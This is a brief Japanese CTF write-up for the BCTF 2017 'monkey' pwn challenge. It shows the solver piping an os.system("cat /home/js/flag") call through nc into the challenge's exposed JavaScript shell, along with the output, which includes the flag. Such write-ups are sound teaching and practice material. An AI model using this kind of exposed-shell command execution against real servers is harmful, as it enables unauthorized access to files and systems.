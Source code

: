 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/04/22/bctf-2017-monkey/
date: "2017-04-22T01:14:11+09:00"
tags: [ "ctf", "writeup", "bctf", "pwn", "javascript" ]
---
```


# BCTF 2017: monkey

## solution

諸々のファイルが渡されるが、ぐぐると`os.system`があると分かるので終わり。

```
$ echo 'os.system("cat /home/js/flag")' | nc 202.112.51.248 2333
js> os.system("cat /home/js/flag")
bctf{319c1b47f786c7b99a757da74fd38408}
js> 0
```
